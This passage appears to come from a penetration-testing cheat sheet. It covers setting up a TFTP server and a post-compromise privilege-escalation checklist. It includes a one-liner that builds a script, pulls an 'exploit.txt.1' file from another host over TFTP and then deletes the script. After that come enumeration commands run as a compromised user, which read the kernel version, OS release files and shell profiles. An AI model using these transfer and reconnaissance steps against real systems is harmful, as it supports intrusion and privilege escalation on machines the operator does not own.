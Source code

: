 __TFTP__
* TFTP server
```
apt-get install atftpd

atftpd --daemon --port 69 /tmp
```

* TFTP client
```
echo '#!/bin/bash' > tftp;echo 'HOST=192.168.2.50' >> tftp;echo '' >> tftp;echo 'tftp $HOST <<EOF' >> tftp;echo 'get exploit.txt.1' >> tftp;echo 'quit' >> tftp;echo 'EOF' >> tftp;chmod +x tftp; ./tftp; rm -f tftp
```

____

### __2.2 Privilege Escalation__
__2.2.0 Check the environment__
* Check which user we've currently compromised
```
$ id
uid=1002(overflow) gid=1002(overflow) groups=1002(overflow)

$ whoami
overflow
```

* Check kernel version
```
$ cat /proc/version
Linux version 4.6.0-kali1-686-pae (devel@kali.org) (gcc version 5.4.0 20160609 (Debian 5.4.0-6) ) #1 SMP Debian 4.6.4-1kali1 (2016-07-21)

$ uname -a
Linux BOEING 4.6.0-kali1-686-pae #1 SMP Debian 4.6.4-1kali1 (2016-07-21) i686 GNU/Linux

$ rpm -q kernel
$ dmesg | grep Linux
$ ls /boot | grep vmlinuz-
```

* Check OS distribution
```
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release      # Debian based
cat /etc/redhat-release   # Redhat based
```

* Check environment variable
```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```
